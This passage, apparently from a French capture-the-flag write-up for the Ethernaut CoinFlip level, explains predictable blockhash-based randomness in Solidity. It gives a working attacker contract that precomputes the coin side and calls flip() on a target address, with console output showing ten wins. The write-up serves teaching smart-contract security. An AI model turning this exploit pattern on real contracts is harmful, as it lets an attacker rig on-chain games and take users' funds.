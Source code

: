 Le problème est que `block.number` est une variable globale, accessible depuis n'importe quel smart contract (si 2 transactions sont dans le même bloc, alors, ces dernières partageront le même `block.number`).

### Attaque

Nous allons alors simplement créer un smart contract et effectuer des tirages pour deviner en avance la valeur attendue puis appeler le fonction `flip()` avec la bonne valeur et ainsi incrémenter `consecutiveWins` tirages après tirages.

```javascript
contract Attack {

  using SafeMath for uint256;
  CoinFlip public object;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function Attack() public {
    object = CoinFlip(0xaef3e3239f3724758f721c93767039c98362d7bb);
  }

  function go() public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    
    bool side = coinFlip == 1 ? true : false;
    bool result = object.flip(side);
    
    return true;
  }
}
```

```javascript
> await contract.consecutiveWins()
0

// execute 10 times go() function from Attack contract

> await contract.consecutiveWins()
10
```

> Generating random numbers in solidity can be tricky. There currently  isn't a native way to generate them, and everything you use in smart  contracts is publicly visible, including the local variables and state  variables marked as private. Miners also have control over things like  blockhashes, timestamps, and whether to include certain transactions -  which allows them to bias these values in their favor.
>
> Some options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).



---
